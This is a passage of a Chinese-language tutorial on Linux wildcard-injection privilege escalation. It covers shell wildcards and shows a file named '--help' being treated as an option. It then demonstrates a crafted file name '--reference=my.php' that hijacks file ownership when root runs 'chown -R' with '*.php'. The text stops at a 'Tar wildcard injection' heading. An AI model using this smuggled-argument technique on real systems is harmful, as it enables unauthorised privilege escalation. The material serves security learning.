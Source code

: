 #### 通配符提权

##### 常见的通配符介绍

```
*  代表任意多个字符
?  代表任意单个字符
[ ] 代表“[”和“]”之间的某一个字符，比如[0-9]可以代表0-9之间的任意一个数字，[a-zA-Z]可以代表a-z和A-Z之间的任意一个字母，字母区分大小写。
– 代表一个字符。
~ 用户的根目录。
```

##### Wildcard wildness（通配符在野）

来看一个简单的实验

```
echo "testtest123">file1
echo "take help"> --help
ls 
==> file1 --help
```

接下来cat这两个文件

```
┌──(root㉿kali)-[~/Desktop]
└─# cat file1 
testtest123
┌──(root㉿kali)-[~/Desktop]
└─# cat --help
Usage: cat [OPTION]... [FILE]...
Concatenate FILE(s) to standard output.
```

当我们cat --help缺调用出了cat自身的帮助选择项，这被称之为通配符在野,利用这个操作我们干很多事情

**通过chown劫持文件所有者**

假设有几个php文件在当前目录下，但拥有者并不是我们自己，首先创建属于自己的php文件，假设为my.php,继续执行如下命令

```
echo > --reference=my.php
```

会生成名为--reference=my.php的文件，此时如果root用户修改php文件的权限给另一个用户

```
chown -R another_user:another_user *.php
```

我们就能从中劫持php文件的所有权，--reference作为chown命令的一个选项，用于引用某个文件的属性来替换自己的元数据

```
–reference=RFILE（直接引用某个文件的属性来替换自己的元数据）
```

当root用户修改权限时，主观地调用了chown ........... -reference=my.php文件，导致数据被我们的文件属性劫持，达到替换的目的

**Tar通配符注入**
